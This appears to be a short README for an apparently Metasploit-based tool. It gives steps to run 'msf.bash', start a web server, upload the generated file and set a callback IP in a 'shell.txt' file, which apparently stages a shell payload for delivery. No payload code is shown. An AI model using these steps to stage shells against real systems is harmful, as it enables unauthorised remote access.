 <h2>Instructions:</h2>
<ol>
        <li>Run the provided `msf.bash` script:</li>
        <pre><code>./msf.bash</code></pre>

<li>Start your Apache or Nginx web server.</li>
        <p>Choose one of the following commands based on your web server:</p>
        <p>For Apache:</p>
        <pre><code>sudo systemctl start apache2</code></pre>
        <p>For Nginx:</p>
        <pre><code>sudo systemctl start nginx</code></pre>

<li>Upload the created file to your web server's root directory (usually `/var/www/html`). You can use tools like `scp` or `rsync` to perform the upload:</li>
        <pre><code>scp your_file.txt user@your_server_ip:/var/www/html/</code></pre>

<li>Once the file is uploaded, locate and open the `shell.txt` file in the `/var/www/html/` directory:</li>
        <pre><code>sudo nano /var/www/html/shell.txt</code></pre>

<li>Edit the `CH_me` in `shell.txt` with your Apache or Nginx server's IP address.</li>
<p>Replace `CH_me` with the IP address of your server, e.g.,</p>
<pre><code>CH_me=http://your_apache_or_nginx_ip/</code></pre>
        
</ol>
